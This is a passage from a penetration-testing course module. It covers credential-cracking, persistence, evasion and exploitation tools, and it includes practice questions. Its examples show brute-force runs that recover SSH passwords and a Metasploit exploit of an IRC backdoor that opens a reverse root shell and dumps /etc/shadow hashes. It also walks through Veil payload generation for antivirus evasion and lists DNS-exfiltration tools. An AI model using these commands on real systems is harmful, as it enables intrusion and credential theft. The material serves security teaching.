Syntax: hydra [[[-l LOGIN|-L FILE] [-p PASS|-P FILE]] | [-C FILE]]
[-e nsr] [-o FILE] [-t TASKS] [-M FILE [-T TASKS]] [-w TIME] [-W
TIME] [-f] [-s PORT] [-x MIN:MAX:CHARSET] [-c TIME] [-ISOuvVd46]
[service://server[:PORT][/OPT]]
Options:
-l LOGIN or -L FILE login with LOGIN name, or load several logins
from FILE
-p PASS or -P FILE try password PASS, or load several passwords from
FILE
-C FILE colon separated "login:pass" format, instead of -L/-P
options
-M FILE list of servers to attack, one entry per line, ':' to
specify port
-t TASKS run TASKS number of connects in parallel per target
(default: 16)
-U service module usage details
-h more command line options (COMPLETE HELP)
server the target: DNS, IP or 192.168.0.0/24 (this OR the -M
option)
service the service to crack (see below for supported protocols)
OPT some service modules support additional input (-U for
module help)
Supported services: adam6500 asterisk cisco cisco-enable cvs firebird
ftp ftps http[s]-{head|get|post} http[s]-{get|post}-form http-proxy
http-proxy-urlenum icq imap[s] irc ldap2[s] ldap3[-{cram|digest}md5]
[s] mssql mysql nntp oracle-listener oracle-sid pcanywhere pcnfs
pop3[s] postgres radmin2 rdp redis rexec rlogin rpcap rsh rtsp
s7-300 sip smb smtp[s] smtp-enum snmp socks5 ssh sshkey svn teamspeak
telnet[s] vmauthd vnc xmpp
Hydra is a tool to guess/crack valid login/password pairs. Licensed
under AGPL
Don't use in military or secret service organizations, or for illegal
purposes.
Example: hydra -l user -P passlist.txt ftp://192.168.0.1
RainbowCrack
Attackers can use rainbow tables – precomputed tables for reversing cryptographic hash functions – to accelerate password cracking. It is possible to use a rainbow table to derive a password by looking at the hashed value. The tool RainbowCrack can be used to automate the cracking of passwords using rainbow tables. You can download RainbowCrack from http://project-rainbowcrack.com.
Example 10-35 shows the RainbowCrack (rcrack) help menu.
Example 10-35 - Using RainbowCrack
<output omitted for brevity>
usage: ./rcrack path [path] [...] -h hash
./rcrack path [path] [...] -l hash_list_file
./rcrack path [path] [...] -lm pwdump_file
./rcrack path [path] [...] -ntlm pwdump_file
path: directory where rainbow tables (*.rt, *.rtc) are
stored
-h hash: load single hash
-l hash_list_file: load hashes from a file, each hash in a line
-lm pwdump_file: load lm hashes from pwdump file
-ntlm pwdump_file: load ntlm hashes from pwdump file
implemented hash algorithms:
lm HashLen=8 PlaintextLen=0-7
ntlm HashLen=16 PlaintextLen=0-15
md5 HashLen=16 PlaintextLen=0-15
sha1 HashLen=20 PlaintextLen=0-20
sha256 HashLen=32 PlaintextLen=0-20
examples:
./rcrack . -h 5d41402abc4b2a76b9719d911017c592
./rcrack . -l hash.txt
Medusa and Ncrack
The Medusa and Ncrack tools, which are similar to Hydra, can be used to perform brute-force credential attacks against a system. You can install Medusa by using the apt install medusa command in a Debian-based Linux system (such as Ubuntu, Kali Linux, or Parrot OS). You can download Ncrack from https://nmap.org/ncrack or install it by using the apt install ncrack command.
Example 10-36 shows how Ncrack can be used to perform a brute-force attack with the username chris and the wordlist my_list against an SSH server with IP address 172.18.104.166. The highlighted line shows the password (password123).
Example 10-36 - Using Ncrack to Perform a Brute-Force Attack
Starting Ncrack 0.6 ( http://ncrack.org ) at 2018-06-25 16:55 EDT
Discovered credentials for ssh on 172.18.104.166 22/tcp:
172.18.104.166 22/tcp ssh: 'chris' 'password123'
Ncrack done: 1 service scanned in 3.00 seconds.
Ncrack finished.
Example 10-37 demonstrates how to use Medusa to perform the same attack.
Example 10-37 - Using Medusa to Perform a Brute-Force Attack
Medusa v2.2 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks
<jmk@foofus.net>
ACCOUNT CHECK: [ssh] Host: 172.18.104.166 (1 of 1, 0 complete) User:
chris (1 of 1, 0 complete) Password: password (1 of 3 complete)
ACCOUNT FOUND: [ssh] Host: 172.18.104.166 User: chris Password: password123 [SUCCESS]
root@kali:~#
CeWL
CeWL is a great tool that can be used to create wordlists. You can use CeWL to crawl websites and retrieve words. Example 10-38 shows how to use CeWL to create the wordlist words.txt by crawling the website https://theartofhacking.org. You can download CeWL from https://digi.ninja/projects/cewl.php.
Example 10-38 - Using CeWL to Create Wordlists
CeWL 5.3 (Heading Upwards) Robin Wood (robin@digi.ninja) (https://
digi.ninja/)
root@kali:~# cat words.txt
Hacking
security
courses
Security
video
ethical
series
LiveLessons
hacking
testing
Series
Santos
Custom
template
penetration
Certified
Cisco
Bootstrap
career
<output omitted for brevity>
Mimikatz
Mimikatz is a tool that many penetration testers and attackers (and even malware) use for retrieving password hashes from memory. It is also a useful post-exploitation tool. The Mimikatz tool can be downloaded from https://github.com/gentilkiwi/mimikatz. Metasploit also includes Mimikatz as a Meterpreter script to facilitate exploitation without the need to upload any files to the disk of the compromised host. You can obtain more information about the Mimikatz and Metasploit integration at https://www.offsec.com/metasploit-unleashed/mimikatz/.
Patator
Patator is another tool that can be used for brute-force attacks on enumerations of SNMPv3 usernames, VPN passwords, and other types of credential attacks. You can download Patator from https://github.com/lanjelot/patator. Example 10-39 shows all the Patator modules.
Example 10-39 - Patator Modules
Patator v0.6 (http://code.google.com/p/patator/)
Usage: patator module --help
Available modules:
+ ftp_login : Brute-force FTP
+ ssh_login : Brute-force SSH
+ telnet_login : Brute-force Telnet
+ smtp_login : Brute-force SMTP
+ smtp_vrfy : Enumerate valid users using SMTP VRFY
+ smtp_rcpt : Enumerate valid users using SMTP RCPT TO
+ finger_lookup : Enumerate valid users using Finger
+ http_fuzz : Brute-force HTTP
+ pop_login : Brute-force POP3
+ pop_passd : Brute-force poppassd (http://netwinsite.com/poppassd/)
+ imap_login : Brute-force IMAP4
+ ldap_login : Brute-force LDAP
+ smb_login : Brute-force SMB
+ smb_lookupsid : Brute-force SMB SID-lookup
+ rlogin_login : Brute-force rlogin
+ vmauthd_login : Brute-force VMware Authentication Daemon
+ mssql_login : Brute-force MSSQL
+ oracle_login : Brute-force Oracle
+ mysql_login : Brute-force MySQL
+ mysql_query : Brute-force MySQL queries
+ pgsql_login : Brute-force PostgreSQL
+ vnc_login : Brute-force VNC
+ dns_forward : Forward lookup names
+ dns_reverse : Reverse lookup subnets
+ snmp_login : Brute-force SNMP v1/2/3
+ unzip_pass : Brute-force the password of encrypted ZIP files
+ keystore_pass : Brute-force the password of Java keystore files
+ umbraco_crack : Crack Umbraco HMAC-SHA1 password hashes
+ tcp_fuzz : Fuzz TCP services
+ dummy_test : Testing module
omar@kali:~$
10.2.8 Practice - Common Tools for Credential Attacks
Question 1
Match the credential attack tools to their descriptions.
Question 2
You have discovered a password file on a compromised system and you want to attempt to crack some of the passwords using your Kali VM. To save time you will be using tables of precomputed hashes and a custom specialized wordlist derived from relevant web pages that you will create.
Which tools can you use to help accomplish this? (Choose two.)
Question 3
During the penetration test of the Pixel Paradise customer, you have found a rogue webserver that is operating on a network without the knowledge of network administration. Port scans indicate that it is also running a remote login service. You would like to challenge the credentials on the server in order to gain root access.
What tool would you use to accomplish this?
Question 4
You have gained access to webserver on the Pixel Paradise network by using a tool to test various username and password combinations. You would like to escalate the privileges of the compromised account by attempting to pull the root password from the system's memory.
Which post-exploitation tool will allow you to do this?
Question 5
After using DNS tools for reconnaissance, you have discovered a mail server that appears to be running an outdated version of SMTP. You would like to enumerate the SMTP user accounts, and brute force the associated passwords.
Which tool should you use to accomplish these tasks?
10.2.9 Common Tools for Persistence
In Module 8, you learned how to maintain persistence on a compromised system after exploitation. You learned about the Netcat utility, which can be used to create a bind shell on a victim system and to execute the Bash shell. In Module 8, you also learned that you can use remote access protocols to communicate with a compromised system and perform lateral movement. These protocols include the following:
- Microsoft's Remote Desktop Protocol (RDP)
- Apple Remote Desktop
- VNC
- X server forwarding
You can also use PowerShell to get directory listings, copy and move files, get a list of running processes, and perform administrative tasks.
PowerSploit is a collection of PowerShell modules that can be used for post-exploitation and other phases of an assessment. PowerSploit can be downloaded from https://github.com/PowerShellMafia/PowerSploit.
Empire is a PowerShell-based post-exploitation framework that is very popular among pen testers. Empire is an open-source framework that includes a PowerShell Windows agent and a Python Linux agent. You can download Empire from https://github.com/EmpireProject/Empire.
10.2.10 Practice - Common Tools for Persistence
You have gained access to a network and are now looking for a means of establishing persistent access to systems. Which protocols are commonly used to communicate with a compromised system and perform lateral movement? (Choose two.)
10.2.11 Common Tools for Evasion
In a pen testing engagement, you typically want to maintain stealth and try to evade and circumvent any security controls that the organization may have in place. Several tools and techniques can be used for evasion, including the following:
- Veil
- Tor
- Proxychains
- Encryption
- Encapsulation and tunneling using DNS and protocols such as NTP
Veil
Veil is a framework that can be used with Metasploit to evade antivirus checks and other security controls. You can download Veil from https://github.com/Veil-Framework/Veil and obtain detailed documentation from https://github.com/Veil-Framework/Veil/wiki.
Select each of the following steps for a Veil example.
After using the veil command to launch Veil, the Veil menu is displayed, as shown in Figure 10-19.
Figure 10-19 - Veil's Main Menu

To use Veil for evasion, select the first option (number 1), as demonstrated in Figure 10-20. Veil then shows the available payloads and Veil commands.
Figure 10-20 - Using Veil for Evasion

To list the available payloads, use the list command, and you see the screen in Figure 10-21.
Figure 10-21 - Veil's Available Payloads

In Figure 10-22, the Meterpreter reverse TCP payload is used. After you select the payload, you have to set the local host (LHOST) and then use the generate command to generate the payload.
Figure 10-22 shows the default Python installer being used to generate the payload.
Figure 10-22 - Configuring the LHOST and Generating the Payload

Once the payload is generated, the screen shown in Figure 10-23 is displayed. The top portion of Figure 10-23 lists the locations of the payload executable, the source code, and the Metasploit resource file.
Figure 10-23 - Displaying the Locations of the Payload Executable, Source Code, and Metasploit Resource File

Tor
Many people use tools such as Tor for privacy. Tor is a free tool that enables its users to surf the Web anonymously. Tor works by "routing" IP traffic through a free worldwide network consisting of thousands of Tor relays. It constantly changes the way it routes traffic in order to obscure a user's location from anyone monitoring the network. Tor's name is an acronym of the original software project's name, "The Onion Router."
Tor enables users to evade and circumvent security monitoring and controls because it's hard to attribute and trace back the traffic to the user. Its "onion routing" is accomplished by encrypting the application layer of a communication protocol stack that's "nested" much like the layers of an onion. The Tor client encrypts the data multiple times and sends it through a network or circuit that includes randomly selected Tor relays. Each of the relays decrypts a layer of the onion to reveal only the next relay so that the remaining encrypted data can be routed on to it. Figure 10-24 shows a screenshot of the Tor browser. It shows the Tor circuit when the user accessed theartofhacking.org from the Tor browser. It first went to a host in France and then to a host in Hungary and then again to France, and finally to theartofhacking.org.
Figure 10-24 - The Tor Browser

Proxychains
Proxychains can be used for evasion, as it is a tool that forces any TCP connection made by a specified application to use Tor or any other SOCKS4, SOCKS5, HTTP, or HTTPS proxy. You can download Proxychains from https://github.com/haad/proxychains.
Encryption
Encryption has great benefits for security and privacy, but the world of incident response and forensics can present several challenges. Even law enforcement agencies have been fascinated with the dual-use nature of encryption. When protecting information and communications, encryption has numerous benefits for everyone from governments and militaries to corporations and individuals. On the other hand, those same mechanisms can be used by threat actors as a method of evasion and obfuscation. Historically, even governments have tried to regulate the use and exportation of encryption technologies. A good example is the Wassenaar Arrangement, which is a multinational agreement whose goal is to regulate the export of technologies like encryption.
As another example, the U.S. Federal Bureau of Investigation (FBI) has tried to force vendors to leave certain investigative techniques in their software and devices. Another example is the alleged U.S. National Security Agency (NSA) backdoor in the Dual Elliptic Curve Deterministic Random Bit Generator (Dual_EC_DRBG), which allows plaintext extraction of any algorithm seeded by this pseudorandom number generator.
Some people have bought into the "encrypt everything" idea. However, encrypting everything would have very serious consequences – not only for law enforcement agencies but for incident response professionals. Something to remember about the concept of "encrypt everything" is that the deployment of end-to-end encryption is difficult and can leave unencrypted data at risk of attack.
Many security products (including next-generation IPSs and next-generation firewalls) can intercept, decrypt, inspect, and re-encrypt or even ignore encrypted traffic payloads. Some people consider this an on-path (formerly man-in-the-middle [MITM]) matter and have privacy concerns. On the other hand, you can still use metadata from network traffic and other security event sources to investigate and solve security issues. You can obtain a lot of good information by leveraging NetFlow, firewall logs, web proxy logs, user authentication information, and even passive DNS (pDNS) data. In some cases, the combination of these logs can make the encrypted contents of malware payloads and other traffic irrelevant – if you can detect their traffic patterns in order to remediate an incident.
It is a fact that you need to deal with encrypted data – but you need to do so in transit or "at rest" on an endpoint or server. If you deploy web proxies, you need to assess the feasibility in your environment of HTTP connections being secure against on-path attacks.
Encapsulation and Tunneling Using DNS and Protocols Such as NTP
Threat actors have used many different nontraditional techniques to steal data from corporate networks without being detected. For example, they have sent stolen credit card data, intellectual property, and confidential documents over DNS by using tunneling. As you probably know, DNS is a protocol that enables systems to resolve domain names (for example, theartofhacking.org) into IP addresses (for example, 104.27.176.154). DNS is not intended for a command channel or even tunneling. However, attackers have developed software that enables tunneling over DNS. These threat actors like to use protocols that are not designed for data transfer because they are less inspected in terms of security monitoring. Undetected DNS tunneling (also known as DNS exfiltration) presents a significant risk to any organization.
In many cases, malware uses Base64 encoding to put sensitive data (such as credit card numbers and personally identifiable information) in the payload of DNS packets to cybercriminals. The following are some examples of encoding methods that attackers may use:
- Base64 encoding
- Binary (8-bit) encoding
- NetBIOS encoding
- Hex encoding
Several utilities have been created to perform DNS tunneling (for good reasons as well as harmful). The following are a few examples:
- DeNiSe: This Python tool is for tunneling TCP over DNS. You can download DeNiSe from https://github.com/mdornseif/DeNiSe.
- dns2tcp: Written by Olivier Dembour and Nicolas Collignon in C, dns2tcp supports KEY and TXT request types. You can download dns2tcp from https://github.com/alex-sector/dns2tcp.
- DNScapy: Created by Pierre Bienaimé, this Python-based Scapy tool for packet generation even supports SSH tunneling over DNS, including a SOCKS proxy. You can download DNScapy from https://github.com/FedericoCeratto/dnscapy.
- DNScat or DNScat-P: This Java-based tool, created by Tadeusz Pietraszek, supports bidirectional communication through DNS. You can download DNScat from https://github.com/iagox86/dnscat2.
- DNScat2 (DNScat-B): Written by Ron Bowes, this tool runs on Linux, macOS, and Windows. DNScat2 encodes DNS requests in NetBIOS encoding or hex encoding. You can download DNScat2 from https://github.com/iagox86/dnscat2.
- Heyoka: This Windows-based tool written in C supports bidirectional tunneling for data exfiltration. You can download Heyoka from http://heyoka.sourceforge.net.
- iodine: Written by Bjorn Andersson and Erik Ekman in C, iodine runs on Linux, macOS, and Windows, and it can even be ported to Android. You can download iodine from https://code.kryo.se/iodine/.
- sods: Originally written in Perl by Dan Kaminsky, this tool is used to set up an SSH tunnel over DNS or for file transfer. The requests are Base32 encoded, and responses are Base64-encoded TXT records. You can download sods from https://github.com/msantos/sods.
- psudp: Developed by Kenton Born, this tool injects data into existing DNS requests by modifying the IP/UDP header lengths. You can obtain additional information about psudp from https://pdfs.semanticscholar.org/0e28/637370748803bcefa5b89ce8b48cf0422adc.pdf.
- Feederbot and Moto: Attackers have used this malware with DNS to steal sensitive information from many organizations. You can obtain additional information about these tools from https://chrisdietri.ch/post/feederbot-botnet-using-dns-command-and-control/.
Some of these tools were not created for stealing data, but cybercriminals have appropriated them for their own purposes.
10.2.12 Practice - Common Tools for Evasion
Hackers can evade security protections and detection. Penetration testers should use similar tools and techniques to do the same.
Match the evasion tool or technique to its description.
10.2.13 Exploitation Frameworks
Two of the most popular exploitation frameworks among pen testers are Metasploit and the Browser Exploitation Framework Project (BeEF).
Metasploit
Metasploit is by far the most popular exploitation framework in the industry. It was created by a security researcher named H. D. Moore and then sold to Rapid7. There are two versions of Metasploit: a community (free) edition and a professional edition. Metasploit, which is written in Ruby, has a robust architecture. Metasploit is installed in /usr/share/metasploit-framework by default in Kali Linux. All corresponding files, modules, documentation, and scripts are located in that folder. Example 10-40 shows the location of the Metasploit documentation in Kali.
Example 10-40 - Metasploit Documentation Location
CODE_OF_CONDUCT.md CONTRIBUTING.md.gz README.md changelog.Debian.gz
copyright developers_guide.pdf.gz modules
Metasploit has several modules:
- auxiliary
- encoders
- exploits
- nops
- payloads
- post (for post-exploitation)
You can launch the Metasploit console by using the msfconsole command. When the Metasploit console starts, the banner in Figure 10-25 is displayed.
Figure 10-25 - The Metasploit Console

You can use the PostgreSQL database in Kali to accelerate the tasks in Metasploit and index the underlying components. You need to start the PostgreSQL service before using the database by using the following command:
After starting the PostgreSQL service, you need to create and initialize the Metasploit database with the msfdb init command, as shown in Example 10-41.
Example 10-41 - Initializing the Metasploit Database
Creating database user 'msf'
Enter password for new role:
Enter it again:
Creating databases 'msf' and 'msf_test'
Creating configuration file in /usr/share/metasploit-framework/config/database.yml
Creating initial database schema
You can search for exploits, auxiliary, and other modules by using the search command, as shown in Figure 10-26.
Figure 10-26 - Searching for Exploits and Other Modules in Metasploit

Let's take a look at how to use an exploit against a vulnerable Linux server. Example 10-42 shows an exploit against a vulnerable IRC server (10.1.1.14) that is conducted with the use exploit/unix/irc/unreal_ircd_3281_backdoor command. The remote host (RHOST), 10.1.1.14, is set, and the exploit is launched using the exploit command.
Example 10-42 - Launching an Exploit in Metasploit
msf exploit(unix/irc/unreal_ircd_3281_backdoor) > set RHOST 10.1.1.14
RHOST => 10.1.1.14
msf exploit(unix/irc/unreal_ircd_3281_backdoor) > exploit
[*] Started reverse TCP double handler on 10.1.1.66:4444
[*] 10.1.1.14:6667 - Connected to 10.1.1.14:6667...
:irc.Metasploitable.LAN NOTICE AUTH :*** Looking up your hostname...
[*] 10.1.1.14:6667 - Sending backdoor command...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo mXnMNBF5GI0w7efl;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "mXnMNBF5GI0w7efl\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (10.1.1.66:4444 -> 10.1.1.14:42933) at 2018-06-25 21:26:40 -0400
id
uid=0(root) gid=0(root)
cat /etc/shadow
root:$1$/ABC123BJ1$23z8w5UF9Iv./DR9E9Lid.:14747:0:99999:7:::
daemon:*:14684:0:99999:7:::
bin:*:14684:0:99999:7:::
<output omitted for brevity>
distccd:*:14698:0:99999:7:::
user:$1$HESu9xrH$k.o3G93DGoXIiQKkPmUgZ0:14699:0:99999:7:::
In Example 10-42, you can see that the exploit is successful and that a command shell session was opened (in the first highlighted line). The Linux id command is issued (second highlighted line), and you can see that the shell in the compromised system is running as root. It is then possible to start gathering additional information from the compromised system. The third highlighted line in Example 10-42 shows the cat /etc/shadow command used to retrieve the user password hashes from the compromised system. It is then possible to crack those passwords offline or, better yet, while running as root, to create new users in the compromised systems.
Let's take a look at a brief example of how Meterpreter can be used for post-exploitation activities.
Select each of the following steps for an example of Metasploit being used to exploit the EternalBlue (MS17-010) vulnerability in Windows.
Figure 10-27 shows the Meterpreter payload for a bind TCP connection (after exploitation) being set.
Figure 10-27 - Using Meterpreter to Create a Bind TCP Connection After Exploitation

Figure 10-28 shows the exploit executed and a Meterpreter session now active.
Figure 10-28 - Exploiting a Vulnerability and Establishing a Meterpreter Session

Meterpreter allows you to execute several commands to get information from the compromised system and send other administrative commands, as shown in Figure 10-29, part 1.
Figure 10-29 - Meterpreter Commands, Part 1

More Meterpreter commands are shown in Figure 10-30, part 2.
Figure 10-30 - Meterpreter Commands, Part 2

Figure 10-31 shows the hashdump Meterpreter command being used to dump all the password hashes from the compromised system.
Figure 10-31 - The hashdump Meterpreter Command

Figure 10-32 shows the getsystem and sysinfo Meterpreter commands being used to obtain additional information from the compromised system. The screenshot command is used to collect a screenshot of the current desktop screen in the compromised system (which shows what the legitimate user is doing). The screenshot is saved in a file (/root/cXevElcg.jpeg) in the attacking system.
Figure 10-32 - Getting System Information and Collecting a Screenshot of the Victim System's Desktop

BeEF
BeEF is an exploitation framework for web application testing. BeEF exploits browser vulnerabilities and interacts with one or more web browsers to launch directed command modules. Each browser can be configured in a different security context. BeEF allows you to launch a set of unique attack vectors and select specific modules in real time to target each browser and context.
BeEF contains numerous command modules and uses a robust API that allows security professionals to quickly develop custom modules. Figure 10-33 shows a screenshot of BeEF in Kali Linux.
Figure 10-33 - BeEF

10.2.14 Practice - Exploitation Frameworks
Question 1
You want to exploit user browsers as a way to attack the Pixel Paradise web applications.
Which exploitation framework exploits client browser vulnerabilities to conduct web application attacks?
Question 2
Which exploitation framework has a vast array of functions including creating payloads and exploiting numerous vulnerabilities for command and control?
10.2.15 Common Decompilation, Disassembly, and Debugging Tools
Now let's cover some of the most popular decompilation, disassembly, and debugging tools in the industry.
- The GNU Project Debugger (GDB)
- Windows Debugger
- OllyDbg
- edb Debugger
- Ghidra
- Interactive Disassembler (IDA)
- Objdump
The GNU Project Debugger
The GNU Project Debugger (GDB) is one of the most popular debuggers among software developers and security professionals. With a debugger like GDB, you can troubleshoot and find software bugs, understand what a program was doing at the moment it crashed, make a program stop on specified conditions, and modify elements of a program to experiment or to correct problems.
Traditionally, GDB has mainly been used to debug programs written in C and C++; however, several other programming languages – such as Go, Objective-C, and OpenCL C – are also supported.
Example 10-43 shows a simple example of how GDB is used to debug and run a vulnerable application (vuln_program) written in C.
The run command is used to run an application inside GDB. The program executes and asks you to enter some text. In this example, a large number of A characters are entered, and the program exits. When the continue GDB command is executed, the text "Program terminated with signal SIGSEGV, Segmentation fault" is displayed. This indicates a potential buffer overflow (which is the case in Example 10-43).
Example 10-43 - Using GDB to Debug a Vulnerable Application
GNU gdb (Debian 7.12-6+b1) 7.12.0.20161007-git
<output omitted for brevity>
Reading symbols from vuln...(no debugging symbols found)...done.
(gdb) run
Starting program: /root/vuln_program
Enter some text:
